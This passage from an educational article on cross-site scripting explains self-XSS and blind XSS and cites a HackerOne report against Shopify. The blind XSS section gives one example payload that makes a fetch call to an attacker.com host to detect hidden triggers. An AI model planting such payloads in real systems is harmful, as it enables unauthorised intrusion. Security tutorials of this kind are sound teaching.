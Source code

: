 The second interpretation is "XSS that can only attack oneself," which is usually referred to as self-XSS.

The XSS we discussed earlier was all about attacking others because others can see your payload. However, sometimes only you can see it.

Let's take an example. Suppose there is an XSS vulnerability in the phone number field, but the problem is that the phone number is personal information, so only you can see it on your own settings page. Others cannot see it. This kind of situation is called self-XSS, where only you can see the pop-up window of `alert()` when you open the settings page.

Although it may seem useless, when combined with other vulnerabilities, it is possible for others to see it.

## Blind XSS

Blind XSS means "XSS executed in a place and at a time you cannot see."

Let's give another example. Suppose there is an e-commerce platform, and after testing, you find that there are no issues in any field and no XSS vulnerabilities are found. However, the e-commerce platform has an internal portal where all order data can be viewed, and this portal has a vulnerability. They forgot to encode the name field, so XSS can be executed using the name field.

In this case, we usually wouldn't know during testing because I don't have access to the internal system, and I may not even know it exists. To test this situation, you need to change the content of the XSS payload from `alert()` to a payload that sends a packet, such as `fetch('https://attacker.com/xss')`. This way, when the XSS is triggered in an invisible place, it can be observed from the server.

There are some ready-made services like [XSS Hunter](https://github.com/mandatoryprogrammer/xsshunter-express) that provide a platform for you to conveniently observe whether XSS is triggered. If triggered, it will return the triggered URL and other information on the screen.

Speaking of actual cases, rioncool22 reported a vulnerability to Shopify in 2020: [Blind Stored XSS Via Staff Name](https://hackerone.com/reports/948929). They added an employee in Shopify's merchant portal and inserted an XSS payload in the name field. Although it did not trigger in the Shopify merchant portal, it triggered in Shopify's internal portal, and they received a reward of $3000.

## Conclusion

This article is a basic introduction to XSS, mainly focusing on the impact and causes of XSS, and also introducing the two categories of self-XSS and blind XSS.

This is just the beginning of XSS. In the next article, we will continue to explore and see more different aspects of XSS.

Before moving on to the next article, think about what payload you would use to trigger XSS if you find an injection point like `innerHTML = data`.
